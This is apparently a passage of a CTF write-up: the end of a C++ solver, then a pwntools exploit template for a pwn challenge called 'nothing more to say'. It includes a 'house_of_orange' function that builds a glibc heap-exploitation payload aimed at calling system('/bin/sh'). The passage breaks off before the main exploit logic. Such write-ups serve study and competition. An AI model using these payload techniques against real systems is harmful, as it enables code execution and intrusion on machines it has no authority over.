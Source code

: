 ```cpp
    for (int i = 0; i < 32; ++i)
        if (a[i] >= 'a' && a[i] <= 'z')
            --num[a[i] - 'a' + 10];
        else if (a[i] >= '0' && a[i] <= '9')
            --num[a[i] - '0'];
    dfs(0);
    return 0;
}
```

## nothing more to say (Pwn, Warmup) 78pt

```python
#! /usr/bin/env python2
# -*- coding: utf-8 -*-
# vim:fenc=utf-8
#
# Copyright © 2018 anciety <anciety@anciety-pc>
#
# Distributed under terms of the MIT license.
import sys
import os
import os.path
from pwn import *
context(os='linux', arch='amd64', log_level='debug')
context.terminal = ['ancyterm', '-s', '192.168.142.1', '-t', 'alacritty', '-e']

# synonyms for faster typing
tube.s = tube.send
tube.sl = tube.sendline
tube.sa = tube.sendafter
tube.sla = tube.sendlineafter
tube.r = tube.recv
tube.ru = tube.recvuntil
tube.rl = tube.recvline
tube.rr = tube.recvregex
tube.irt = tube.interactive

if len(sys.argv) > 2:
    DEBUG = 0
    HOST = sys.argv[1]
    PORT = int(sys.argv[2])

    p = remote(HOST, PORT)
else:
    DEBUG = 1
    if len(sys.argv) == 2:
        PATH = sys.argv[1]

    p = process(PATH)


# by w1tcher who dominates pwnable challenges
def house_of_orange(head_addr, system_addr, io_list_all):
    payload = b'/bin/sh\x00'
    payload = payload + p64(0x61) + p64(0) + p64(io_list_all - 16)
    payload = payload + p64(0) + p64(1) + p64(0) * 9 + p64(system_addr) + p64(0) * 4
    payload = payload + p64(head_addr + 18 * 8) + p64(2) + p64(3) + p64(0) + \
            p64(0xffffffffffffffff) + p64(0) * 2 + p64(head_addr + 12 * 8)
    return payload


orig_attach = gdb.attach
```
